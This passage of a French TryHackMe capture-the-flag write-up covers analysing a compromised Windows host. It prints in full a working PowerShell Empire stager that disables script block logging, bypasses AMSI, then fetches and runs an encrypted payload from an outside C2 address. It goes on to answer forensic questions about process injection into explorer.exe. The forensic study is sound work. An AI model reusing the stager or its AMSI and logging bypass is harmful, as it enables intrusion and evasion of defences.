BlAFQAVAB5AHAAZQAoACcAUwB5AHMAdABlAG0ALgBNAGEAbgBhAGcAZQBtAGUAbgB0AC4AQQB1AHQAbwBtAGEAdABpAG8AbgAuAEEAbQBzAGkAJwArACcAVQB0AGkAbABzACcAKQA7ACQAUgBFAGYALgBHAEUAdABGAEkARQBMAEQAKAAnAGEAbQBzAGkASQBuAGkAdABGACcAKwAnAGEAaQBsAGUAZAAnACwAJwBOAG8AbgBQAHUAYgBsAGkAYwAsAFMAdABhAHQAaQBjACcAKQAuAFMAZQB0AFYAYQBMAFUARQAoACQAbgB1AEwAbAAsACQAVAByAHUARQApADsAfQA7AFsAUwB5AHMAdABFAG0ALgBOAEUAVAAuAFMARQByAFYASQBDAEUAUABvAEkAbgB0AE0AQQBuAEEAZwBlAFIAXQA6ADoARQB4AFAARQBjAFQAMQAwADAAQwBPAG4AVABJAG4AdQBlAD0AMAA7ACQAMgA3AEMARQA9AE4AZQBXAC0ATwBCAEoARQBjAHQAIABTAFkAcwBUAEUAbQAuAE4ARQB0AC4AVwBFAEIAQwBsAEkAZQBOAFQAOwAkAHUAPQAnAE0AbwB6AGkAbABsAGEALwA1AC4AMAAgACgAVwBpAG4AZABvAHcAcwAgAE4AVAAgADYALgAxADsAIABXAE8AVwA2ADQAOwAgAFQAcgBpAGQAZQBuAHQALwA3AC4AMAA7ACAAcgB2ADoAMQAxAC4AMAApACAAbABpAGsAZQAgAEcAZQBjAGsAbwAnADsAJABzAGUAcgA9ACQAKABbAFQARQB4AHQALgBFAE4AQwBvAEQAaQBOAGcAXQA6ADoAVQBOAGkAQwBvAEQAZQAuAEcARQBUAFMAdAByAGkAbgBnACgAWwBDAE8AbgBWAGUAUgB0AF0AOgA6AEYAcgBPAE0AQgBBAHMARQA2ADQAUwBUAHIASQBOAGcAKAAnAGEAQQBCADAAQQBIAFEAQQBjAEEAQQA2AEEAQwA4AEEATAB3AEEAegBBAEQAUQBBAEwAZwBBAHkAQQBEAFEAQQBOAFEAQQB1AEEARABFAEEATQBnAEEANABBAEMANABBAE0AUQBBADIAQQBEAEUAQQBPAGcAQQA1AEEARABBAEEATQBBAEEAeABBAEEAPQA9ACcAKQApACkAOwAkAHQAPQAnAC8AYQBkAG0AaQBuAC8AZwBlAHQALgBwAGgAcAAnADsAJAAyADcAQwBFAC4ASABlAGEAZABFAHIAcwAuAEEARABEACgAJwBVAHMAZQByAC0AQQBnAGUAbgB0ACcALAAkAHUAKQA7ACQAMgA3AEMAZQAuAFAAcgBPAHgAWQA9AFsAUwB5AFMAVABFAG0ALgBOAEUAVAAuAFcARQBCAFIARQBxAFUAZQBzAFQAXQA6ADoARABlAGYAQQBVAGwAdABXAEUAQgBQAFIATwBYAFkAOwAkADIANwBjAGUALgBQAFIATwBYAHkALgBDAHIARQBEAEUATgBUAEkAYQBsAHMAIAA9ACAAWwBTAHkAUwB0AGUAbQAuAE4ARQB0AC4AQwBSAEUAZABFAG4AVABpAEEAbABDAEEAQwBoAEUAXQA6ADoARABFAEYAQQBVAEwAVABOAGUAVAB3AG8AUgBLAEMAcgBFAGQAZQBuAFQAaQBBAEwAUwA7ACQAUwBjAHIAaQBwAHQAOgBQAHIAbwB4AHkAIAA9ACAAJAAyADcAYwBlAC4AUAByAG8AeAB5ADsAJABLAD0AWwBTAHkAcwB0AEUAbQAuAFQAZQBYAFQALgBFAG4AQwBvAEQAaQBOAGcAXQA6ADoAQQBTAEMASQBJAC4ARwBlAFQAQgBZAFQAZQBzACgAJwBhAHcAWABVAEQAawBpAHQAPABvAFYAOQBKAGMAUgBPAEwAewAlAGcAUQAuAHwAMwBuAEgAcQBNAHAAQQAvAGwAJwApADsAJABSAD0AewAkAEQALAAkAEsAPQAkAEEAcgBHAHMAOwAkAFMAPQAwAC4ALgAyADUANQA7ADAALgAuADIANQA1AHwAJQB7ACQASgA9ACgAJABKACsAJABTAFsAJABfAF0AKwAkAEsAWwAkAF8AJQAkAEsALgBDAE8AdQBuAFQAXQApACUAMgA1ADYAOwAkAFMAWwAkAF8AXQAsACQAUwBbACQASgBdAD0AJABTAFsAJABKAF0ALAAkAFMAWwAkAF8AXQB9ADsAJABEAHwAJQB7ACQASQA9ACgAJABJACsAMQApACUAMgA1ADYAOwAkAEgAPQAoACQASAArACQAUwBbACQASQBdACkAJQAyADUANgA7ACQAUwBbACQASQBdACwAJABTAFsAJABIAF0APQAkAFMAWwAkAEgAXQAsACQAUwBbACQASQBdADsAJABfAC0AYgBYAG8AUgAkAFMAWwAoACQAUwBbACQASQBdACsAJABTAFsAJABIAF0AKQAlADIANQA2AF0AfQB9ADsAJAAyADcAQwBFAC4ASABlAGEARABlAHIAcwAuAEEAZABEACgAIgBDAG8AbwBrAGkAZQAiACwAIgBSAGoATQBlAGUAawA9AFoAbQBRAEwASABhAGMATQBCAFgAcgBMAGMAQgArAFYARQBsAHYATABjAHcATwAyADYARQBZAD0AIgApADsAJABEAGEAdABBAD0AJAAyADcAQwBlAC4ARABPAHcAbgBsAG8AQQBkAEQAQQB0AEEAKAAkAFMAZQByACsAJABUACkAOwAkAGkAdgA9ACQARABhAFQAQQBbADAALgAuADMAXQA7ACQARABhAHQAQQA9ACQAZABBAHQAQQBbADQALgAuACQARABhAHQAYQAuAGwARQBOAGcAdABoAF0AOwAtAGoATwBJAE4AWwBDAEgAQQByAFsAXQBdACgAJgAgACQAUgAgACQAZABBAHQAQQAgACgAJABJAFYAKwAkAEsAKQApAHwASQBFAFgA' | base64 -d
IF($PSVErSIONTABlE.PSVErsIoN.MAJOr -GE 3){$fff6=[ref].ASsemBLy.GetTypE('System.Management.Automation.Utils')."GetFie`ld"('cachedGroupPolicySettings','N'+'onPublic,Static');If($ffF6){$B9BE=$fFf6.GETValUe($NULL);If($B9bE['ScriptB'+'lockLogging']){$B9Be['ScriptB'+'lockLogging']['EnableScriptB'+'lockLogging']=0;$b9Be['ScriptB'+'lockLogging']['EnableScriptBlockInvocationLogging']=0}$vAl=[COLlECtiOnS.GEnErIc.DIcTIoNARy[STrinG,SyStEM.OBjecT]]::nEw();$Val.ADD('EnableScriptB'+'lockLogging',0);$VAL.ADd('EnableScriptBlockInvocationLogging',0);$b9bE['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptB'+'lockLogging']=$VAl}ElSE{[SCRipTBlock]."GeTFie`ld"('signatures','N'+'onPublic,Static').SETVaLue($nULl,(New-OBjECt COLlectIoNs.GEnerIC.HaSHSeT[sTrIng]))}$Ref=[Ref].ASSEmbly.GeTType('System.Management.Automation.Amsi'+'Utils');$REf.GEtFIELD('amsiInitF'+'ailed','NonPublic,Static').SetVaLUE($nuLl,$TruE);};[SystEm.NET.SErVICEPoIntMAnAgeR]::ExPEcT100COnTInue=0;$27CE=NeW-OBJEct SYsTEm.NEt.WEBClIeNT;$u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';$ser=$([TExt.ENCoDiNg]::UNiCoDe.GETString([COnVeRt]::FrOMBAsE64STrINg('aAB0AHQAcAA6AC8ALwAzADQALgAyADQANQAuADEAMgA4AC4AMQA2ADEAOgA5ADAAMAAxAA==')));$t='/admin/get.php';$27CE.HeadErs.ADD('User-Agent',$u);$27Ce.PrOxY=[SySTEm.NET.WEBREqUesT]::DefAUltWEBPROXY;$27ce.PROXy.CrEDENTIals = [SyStem.NEt.CREdEnTiAlCAChE]::DEFAULTNeTwoRKCrEdenTiALS;$Script:Proxy = $27ce.Proxy;$K=[SystEm.TeXT.EnCoDiNg]::ASCII.GeTBYTes('awXUDkit<oV9JcROL{%gQ.|3nHqMpA/l');$R={$D,$K=$ArGs;$S=0..255;0..255|%{$J=($J+$S[$_]+$K[$_%$K.COunT])%256;$S[$_],$S[$J]=$S[$J],$S[$_]};$D|%{$I=($I+1)%256;$H=($H+$S[$I])%256;$S[$I],$S[$H]=$S[$H],$S[$I];$_-bXoR$S[($S[$I]+$S[$H])%256]}};$27CE.HeaDers.AdD("Cookie","RjMeek=ZmQLHacMBXrLcB+VElvLcwO26EY=");$DatA=$27Ce.DOwnloAdDAtA($Ser+$T);$iv=$DaTA[0..3];$DatA=$dAtA[4..$Data.lENgth];-jOIN[CHAr[]](& $R $dAtA ($IV+$K))|IEX
```

On décode payload.   
On voit que le chemin est /admin/get.php 

**This is the default communication profile the agent used to connect to the attack machine. What attack framework was used? What is the name of the variable? (answer, answer)**

```bash
tim@kali:~/Bureau/tryhackme/write-up/windows3$ echo 'aAB0AHQAcAA6AC8ALwAzADQALgAyADQANQAuADEAMgA4AC4AMQA2ADEAOgA5ADAAMAAxAA==' | base64 -d
http://34.245.128.161:9001


```

Faire une recherche sur google /admin/get.php   

On tombe sur une framework Empire.   

  

Par défaut il est mit par : DefaultProfile.   

La réponse est : DefaultProfile, Empire   

**What other file paths are you likely to find in the logs? (answer, answer)**  

  

Dans la documentation on trouve les noms des fichiers.  
On est supsceptibe de trouver les fichiers : /news.php,/login/process.php  

**What is the MITRE ATT&CK URI for the attack framework?**

Le lien MITRE pour le framework  Empire est : https://attack.mitre.org/software/S0363/    

**What was the FQDN of the attacker machine that the suspicious process connected to?**

```bash
tim@kali:~/Bureau/tryhackme/write-up/windows3$ echo 'aAB0AHQAcAA6AC8ALwAzADQALgAyADQANQAuADEAMgA4AC4AMQA2ADEAOgA5ADAAMAAxAA==' | base64 -d
http://34.245.128.161:9001
```

Dans le payload on trouve une ip.  

```bash
C:\Users\Administrator>nslookup 34.245.128.161
Server:  ip-10-0-0-2.eu-west-1.compute.internal
Address:  10.0.0.2

Name:    ec2-34-245-128-161.eu-west-1.compute.amazonaws.com
Address:  34.245.128.161
```

On fait un reverse dns et on trouve le nom de domaine qui est : ec2-34-245-128-161.eu-west-1.compute.amazonaws.com    

**What other process connected to the attacker machine?**

  

Dans process monitor dans network on remarque qu'explorer.exe s'attache à la machine de l'attaquant.  

**What is the PID for this process?**

  

Le PID d'explorer est : 2684    

**What was the path for the first image loaded for the process identified in Q's 19 & 20?**

    

Le chemin de la première image est : C:\Windows\System32\mscoree.dll    

**What Sysmon event was generated between these 2 processes? What is its associated Event ID #? (answer, answer)**   

    

L'événement généré entre les 2 processus est CreateRemoteThread et son ID est 8    

**What is the UTC time for the first event between these 2 processes?**

    

Le temps UTC pour le premier evénement est : 2021-01-22 01:07:06.182    

**What is the value under Date and Time? (MM/DD/YYYY H:MM:SS [AM/PM])**

La valeure sous la date est : 1/21/2021 5:07:06 PM   

    

**What is the first operation listed by the 2nd process starting with the Date and Time from Q25?**   

    
   

On voit que c'est le PID 3088.  
On recherche ce qui fait.   

La première opération qu'il fait est : Thread create   

**What is the full registry path that was queried by the attacker to get information about the victim?**

   

La clef de registre complète pour avoir les informations de la victime est : HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\ReleaseId    

**What is the name of the last module in the stack from this event which had a successful result?**

   

Le nom du dernier module dans le stack est : \<unknown\>

**Most likely what module within the attack framework was used between the 2 processes?**

Le module qui été suremment utilisé est : Invoke-PSInject  

**What is the MITRE ID for this technique?**

L'ID Mitre pour cette technique est : T1055     


